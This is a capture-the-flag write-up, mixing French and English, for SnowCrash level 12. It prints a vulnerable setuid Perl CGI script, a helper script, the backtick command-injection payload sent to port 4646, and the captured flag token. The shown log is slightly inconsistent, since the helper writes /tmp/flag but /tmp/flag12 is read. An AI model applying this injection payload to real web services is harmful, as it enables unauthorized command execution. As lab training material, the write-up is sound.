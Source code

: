 # Level 12

</br></br>

## check file level 12
```zsh
level12@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
level12@SnowCrash:~$ ./level12.pl 
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Étant donné que c'est un CGI, il est nécessaire de créer un script

</br></br>

## make CGI file
```zsh
level12@SnowCrash:~$ vim /tmp/GETFLAG
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
```
dans le pl script, le nom de fichier est changé en mascule.
donc, on doit créer le fichier en mascule et avec "backtick" et avec "systemcall" dans le code ou script,
on peut executer la commande

</br></br>

## execute
connect to 
> http://192.168.56.101:4646/?x=`/tmp/GETFLAG`

```zsh
level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13 
Password: 
level13@SnowCrash:~$ 
```